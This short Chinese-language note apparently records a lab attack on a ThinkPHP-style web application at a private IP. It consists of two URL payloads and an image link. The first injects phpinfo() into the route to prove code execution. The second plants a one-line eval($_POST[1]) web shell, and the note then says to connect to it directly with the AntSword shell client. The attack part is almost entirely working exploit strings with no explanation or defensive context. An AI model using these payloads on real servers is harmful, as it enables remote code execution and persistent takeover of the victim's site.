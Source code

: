 [http://192.168.44.149:8080/index.php?s=/index/index/name/${@phpinfo()}](http://192.168.44.149:8080/index.php?s=/index/index/name/$%7B@phpinfo%28%29%7D "http://192.168.44.149:8080/index.php?s=/index/index/name/$%7B@phpinfo()%7D")

http://192.168.44.149:8080/?s=/Index/index/jammny/${@print(eval($_POST\[1\]))}

蚁剑直接连

![cdbaf25e3616b3b86b45a2b78e26605f.png](../../_resources/cdbaf25e3616b3b86b45a2b78e26605f.png)